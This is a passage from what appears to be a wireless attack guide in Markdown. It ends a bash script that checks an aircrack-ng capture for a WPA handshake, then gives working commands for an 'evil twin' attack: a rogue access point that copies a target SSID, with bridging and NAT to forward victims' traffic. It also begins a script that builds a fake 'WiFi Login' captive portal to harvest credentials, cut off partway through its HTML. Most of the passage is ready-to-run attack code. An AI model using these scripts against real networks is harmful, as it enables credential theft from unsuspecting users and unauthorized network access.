 ```bash
if aircrack-ng -b "$TARGET_BSSID" "$CAPTURE_FILE-01.cap" | grep -q "1 handshake"; then
    echo "[+] Handshake captured successfully!"
    echo "[+] File: $CAPTURE_FILE-01.cap"
    exit 0
else
    echo "[-] No handshake captured. Try again with more active clients."
    exit 1
fi
```

### Evil Twin Attacks

Creates rogue access point with same SSID as target to capture credentials.

#### Basic Evil Twin Setup

```bash
# Step 1: Create fake AP
sudo airbase-ng -e "TargetNetwork" -c 6 wlan0mon

# Step 2: Configure network bridge (in another terminal)
sudo brctl addbr br0
sudo brctl addif br0 eth0
sudo brctl addif br0 at0
sudo ifconfig br0 up
sudo dhclient br0

# Step 3: Set up internet sharing
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

#### Advanced Evil Twin with Captive Portal

```bash
#!/bin/bash
# evil-twin-portal.sh - Evil twin with credential capture

TARGET_SSID="$1"
INTERFACE="wlan0mon"
PORTAL_DIR="/tmp/evil-portal"

if [[ -z "$TARGET_SSID" ]]; then
    echo "Usage: $0 <TARGET_SSID>"
    exit 1
fi

# Create portal directory
mkdir -p "$PORTAL_DIR"

# Create simple captive portal page
cat > "$PORTAL_DIR/index.html" << EOF
<!DOCTYPE html>
<html>
<head>
    <title>WiFi Login</title>
    <style>
        body { font-family: Arial; text-align: center; margin-top: 50px; }
        .login-form { max-width: 300px; margin: 0 auto; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { background: #007cba; color: white; padding: 10px 20px; border: none; }
    </style>
</head>
<body>
    <div class="login-form">
```